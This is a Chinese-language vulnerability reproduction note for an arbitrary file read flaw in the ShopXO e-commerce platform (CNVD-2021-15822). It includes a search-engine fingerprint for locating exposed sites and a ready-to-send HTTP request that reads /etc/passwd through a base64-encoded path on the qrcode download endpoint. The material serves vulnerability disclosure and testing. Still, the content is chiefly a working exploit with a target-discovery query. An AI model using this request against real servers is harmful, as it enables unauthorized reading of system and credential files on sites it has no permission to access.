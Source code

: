# ShopXO download 任意文件读取漏洞 CNVD-2021-15822

## 漏洞描述

ShopXO是一套开源的企业级开源电子商务系统。ShopXO存在任意文件读取漏洞，攻击者可利用该漏洞获取敏感信息

## 漏洞影响

```
ShopXO
```

## 网络测绘

```
app="ShopXO企业级B2C电商系统提供商"
```

## 漏洞复现

商城主页如下

![](images/202202170858707.png)

发送漏洞请求包

```plain
GET /public/index.php?s=/index/qrcode/download/url/L2V0Yy9wYXNzd2Q= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

其中 **/url/xxxx** 中的 base64 解码后为 **/etc/passwd**

![](images/202202170859076.png)